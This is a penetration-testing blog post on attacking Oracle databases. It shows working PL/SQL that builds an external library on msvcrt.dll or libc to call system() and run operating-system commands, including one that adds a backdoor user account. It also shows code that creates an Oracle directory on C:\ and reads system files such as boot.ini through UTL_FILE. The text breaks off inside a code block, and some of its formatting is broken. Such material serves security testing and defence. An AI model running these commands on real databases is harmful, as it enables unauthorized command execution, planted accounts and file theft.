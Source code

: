```yaml
---
layout: post
title:  "Oracle Hacks — Part 2"
date:   2018-06-15 13:49:33 +0000
tags: [Oracle, Databases, pentest, redteam, blueteam]
---
```

In part 1 of our Oracle Hacks we covered the basics of enumerating and interacting with the database. In this segment we will cover a number of past and current attacks.

## Java & OS Commands
### Running OS commands with PL/SQL
By using external procedures we can execute operating system commands by creating an Oracle library for msvcrt.dll or libc and call the system() function.
```
CREATE OR REPLACE LIBRARY 
exec_shell AS 'C:\Windows\System32\msvcrt.dll'; 
/
```
This creates the library. Note that this example uses a full path. We’ll come back to this. Next we create the procedure:
```
show errors 
CREATE OR REPLACE PACKAGE oracmd IS 
PROCEDURE exec (cmdstring IN CHAR); 
end oracmd; 
/
show errors 
CREATE OR REPLACE PACKAGE BODY oracmd IS 
PROCEDURE exec(cmdstring IN CHAR) 
IS EXTERNAL 
NAME "system" 
LIBRARY exec_shell 
LANGUAGE C; 
end oracmd; 
/
```
With the procedure created we can execute it and run our OS command:
` exec oracmd.exec ('net user my_secret_user password!! /add');
To see the output, you may need to execute the following:
```
SET SERVEROUTPUT ON
Accessing the OS File System
While PUBLIC can execute UTL_FILE (the function that actually opens the file is FOPEN). This takes as one of its parameters the name of a directory? not a directory in the sense of the file system but an Oracle directory that has been created using the CREATE DIRECTORY command:

CREATE OR REPLACE DIRECTORY THEDIR AS 'C:\';
By default, there are no directories that PUBLIC can access and PUBLIC cannot execute CREATE DIRECTORY either. This limits the risk of a low-privileged user using UTL_FILE to gain access to the file system. Of course, if a user can create a directory, then he can access the file system. The file system access is done with the privileges of the user running the main Oracle process.

set serveroutput on 
CREATE OR REPLACE DIRECTORY THEDIR AS 'C:\'; 
    
DECLARE 
BUFFER VARCHAR2(260); 
FD UTL_FILE.FILE_TYPE; 
begin 
FD := UTL_FILE.FOPEN('THEDIR','boot.ini','r'); 
DBMS_OUTPUT.ENABLE(1000000); 
```